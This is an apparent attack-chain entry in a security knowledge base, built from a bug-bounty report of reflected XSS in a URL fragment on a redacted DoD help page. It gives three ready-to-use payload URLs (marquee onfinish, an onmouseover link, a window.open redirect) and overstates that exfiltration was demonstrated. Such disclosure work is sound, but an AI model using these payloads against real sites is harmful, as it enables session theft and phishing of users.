

---
tags:
  - xss
  - html-injection
  - open-redirect
  - web
  - dod
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Trigger-XSS-with-onfinish-in-Marquee]]'
  - '[[procedures/Inject-Malicious-Link-with-onmouseover]]'
  - '[[procedures/Open-New-Window-via-onmouseover-Redirect]]'
step_count: 3
techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:15:41.698Z'
description: >-
  Demonstrates reflected XSS through unsanitized HTML injection in the rhsearch
  URL fragment on a DoD help page, enabling JavaScript execution via crafted
  URLs.
skill_level: intermediate
impact_level: high
id: a415ac1a-2efe-42b0-8d81-35aac437d5e6
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
---
# Reflected XSS via HTML Injection in rhsearch URL Parameter

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox) for URL testing

### Target Environment

- Web platform
- Access to DoD subdomain help page at https://[redacted]/help-leave/help/index.htm?ux=search
- No special services or ports required beyond HTTP/HTTPS

### Initial Access Requirements

- Ability to craft and visit URLs (no credentials needed)
- Victim interaction: Tricking a user into visiting the malicious URL

## Detailed Attack Procedures

### Step 1: Trigger Basic XSS Alert
procedure: [[procedures/Trigger-XSS-with-onfinish-in-Marquee]]

**Objective**: Verify HTML injection and JavaScript execution by triggering an alert on page load.

**Instructions**: Manually construct the URL with an encoded HTML payload using a <marquee> tag and onfinish event handler. Visit the URL in a browser targeting the vulnerable help page.

Example URL:

```url
https://[redacted]/help-leave/help/index.htm#rhsearch=%3Cmarquee%20loop=1%20onfinish=alert(document.domain)%3Etest%3C%2Fmarquee%3E&ux=search
```

The rhsearch parameter decodes to `<marquee loop=1 onfinish=alert(document.domain)>test</marquee>`, injecting the HTML that executes the alert when the marquee finishes its loop.

**Expected Output**: A JavaScript alert box displays the document domain upon page load.

**Success Indicators**:
- Alert dialog appears with the domain name
- No errors in browser console related to sanitization

### Step 2: Inject Malicious Link with Hover Trigger
procedure: [[procedures/Inject-Malicious-Link-with-onmouseover]]

**Objective**: Demonstrate link injection combined with JavaScript execution on user interaction (mouseover).

**Instructions**: Craft a URL embedding a <marquee> with an <a> tag that includes an onmouseover event. Visit the URL to observe the injected content.

Example URL:

```url
https://[redacted]/help-leave/help/index.htm#rhsearch=%3Cmarquee%3E%3Cu%3E%3Ca%20href%3D%22http%3A%2F%2Fwww.google.com%22%20onmouseover%3Dalert(document.domain)%3EXSS%20HACKERONE%20%2F%20lemonoftroy%3C%2Fa%3E%3C%2Fmarquee%3E&ux=search
```

This decodes to `<marquee><u><a href="http://www.google.com" onmouseover=alert(document.domain)>XSS HACKERONE / lemonoftroy</a></marquee>`, rendering a clickable link that triggers an alert on hover without navigating.

**Expected Output**: Injected underlined link appears on the page; hovering triggers an alert with the domain.

**Success Indicators**:
- Visible malicious link in page content
- Alert fires on mouseover event

### Step 3: Execute Open Redirect via Injected Link
procedure: [[procedures/Open-New-Window-via-onmouseover-Redirect]]

**Objective**: Show potential for open redirects or phishing by opening external windows through injected JS.

**Instructions**: Build a URL with a payload that injects an <a> tag using window.open() on mouseover. Access the URL to test the behavior.

Example URL:

```url
https://[redacted]/help-leave/help/index.htm#rhsearch=%3Cmarquee%3E%3Ca%20href=%22http://google.com%22%20onmouseover=window.open(%22https://www.google.com%22)%3Etest%20for%20hackerone%3C/marquee%3E&ux=search
```

Decodes to `<marquee><a href="http://google.com" onmouseover=window.open("https://www.google.com")>test for hackerone</marquee>`, allowing a new browser window to open on hover.

**Expected Output**: New tab/window opens to the specified URL upon hovering the injected link.

**Success Indicators**:
- Link renders correctly
- External site loads in new window on interaction

## Attack Chain Summary

### Key Achievements

1. Confirmed arbitrary HTML and JavaScript execution via URL fragment injection
2. Demonstrated session theft potential through alerts and data exfiltration
3. Illustrated phishing risks with open redirects and window manipulation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
